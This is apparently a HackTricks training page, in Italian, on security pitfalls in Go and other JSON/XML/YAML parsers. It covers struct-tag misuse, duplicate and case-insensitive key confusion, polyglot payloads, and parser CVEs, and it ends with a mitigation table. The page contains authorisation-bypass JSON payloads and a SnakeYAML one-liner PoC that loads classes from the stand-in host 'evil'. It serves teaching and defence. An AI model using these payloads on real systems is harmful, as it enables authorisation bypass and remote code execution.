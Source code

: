 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

I seguenti problemi sono stati rilevati nel Go JSON anche se potrebbero essere presenti in altre lingue. Questi problemi sono stati pubblicati in [**questo post del blog**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

I parser JSON, XML e YAML di Go hanno una lunga serie di incoerenze e impostazioni predefinite insicure che possono essere sfruttate per **bypassare l'autenticazione**, **escalare i privilegi** o **esfiltrare dati sensibili**.


### (Un)Marshaling Unexpected Data

L'obiettivo è sfruttare le strutture che consentono a un attaccante di leggere/scrivere campi sensibili (ad es., `IsAdmin`, `Password`).

- Esempio di Struttura:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnerabilità comuni

1. **Tag mancante** (nessun tag = il campo viene comunque analizzato per impostazione predefinita):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Uso errato di `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Modo corretto per bloccare un campo dall'essere (de)serializzato:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Differenziali del Parser

L'obiettivo è bypassare l'autorizzazione sfruttando come diversi parser interpretano lo stesso payload in modo diverso, come in:
- CVE-2017-12635: bypass di Apache CouchDB tramite chiavi duplicate
- 2022: RCE 0-click di Zoom tramite incoerenza del parser XML
- Bypass SAML di GitLab 2025 tramite stranezze XML

**1. Campi Duplicati:**
Il `encoding/json` di Go prende il **ultimo** campo.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Altri parser (ad esempio, Jackson di Java) possono prendere il **primo**.

**2. Insensibilità al caso:**
Go è insensibile al caso:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Anche i trucchi Unicode funzionano:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Disallineamento tra servizi:**
Immagina:
- Proxy scritto in Go
- Servizio AuthZ scritto in Python

L'attaccante invia:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python vede `UserAction`, lo consente
- Go vede `AdminAction`, lo esegue


### Confusione del formato dei dati (Polyglots)

L'obiettivo è sfruttare i sistemi che mescolano formati (JSON/XML/YAML) o che falliscono in modo aperto sugli errori del parser come:
- **CVE-2020-16250**: HashiCorp Vault ha analizzato JSON con un parser XML dopo che STS ha restituito JSON invece di XML.

L'attaccante controlla:
- L'intestazione `Accept: application/json`
- Controllo parziale del corpo JSON

Il parser XML di Go lo ha analizzato **comunque** e ha fidato l'identità iniettata.

- Payload creato:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Vulnerabilità Notabili dei Parser (2023-2025)

> I seguenti problemi pubblicamente sfruttabili mostrano che il parsing insicuro è un problema multi-linguaggio — non solo un problema di Go.

### RCE da Deserializzazione SnakeYAML (CVE-2022-1471)

* Colpisce: `org.yaml:snakeyaml` < **2.0** (utilizzato da Spring-Boot, Jenkins, ecc.).
* Causa principale: `new Constructor()` deserializza **classi Java arbitrarie**, consentendo catene di gadget che culminano nell'esecuzione di codice remoto.
* One-liner PoC (aprirà la calcolatrice sull'host vulnerabile):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Correzione / Mitigazione:
1. **Aggiorna a ≥2.0** (usa `SafeLoader` per impostazione predefinita).
2. Nelle versioni precedenti, usa esplicitamente `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Riguarda: `libyaml` ≤0.2.5 (libreria C sfruttata da molti binding di linguaggi).
* Problema: Chiamare `yaml_event_delete()` due volte porta a un double-free che gli attaccanti possono trasformare in DoS o, in alcuni scenari, sfruttamento dell'heap.
* Stato: Rifiutato upstream come “uso improprio dell'API”, ma le distribuzioni Linux hanno fornito una patch **0.2.6** che annulla difensivamente il puntatore.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Riguarda: Tencent **RapidJSON** prima del commit `8269bc2` (<1.1.0-patch-22).
* Bug: In `GenericReader::ParseNumber()` l'aritmetica non controllata consente agli attaccanti di creare enormi letterali numerici che si avvolgono e corrompono l'heap — abilitando infine l'escalation dei privilegi quando il grafo degli oggetti risultante viene utilizzato per decisioni di autorizzazione.

---

### 🔐 Mitigazioni (Aggiornato)

| Rischio                             | Correzione / Raccomandazione                                 |
|-------------------------------------|-------------------------------------------------------------|
| Campi sconosciuti (JSON)            | `decoder.DisallowUnknownFields()`                           |
| Campi duplicati (JSON)              | ❌ Nessuna correzione nella stdlib — valida con [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Corrispondenza case-insensitive (Go)| ❌ Nessuna correzione — valida i tag della struct + pre-canonicalizza l'input   |
| Dati spazzatura XML / XXE           | Usa un parser rinforzato (`encoding/xml` + `DisallowDTD`)  |
| Chiavi sconosciute YAML              | `yaml.KnownFields(true)`                                    |
| **Deserializzazione YAML non sicura**| Usa SafeConstructor / aggiorna a SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Aggiorna a **0.2.6** o a una release patchata dalla distro  |
| RapidJSON <commit patchato          | Compila contro l'ultima versione di RapidJSON (≥Luglio 2024) |

## Riferimenti

- Baeldung – “Risoluzione di CVE-2022-1471 con SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
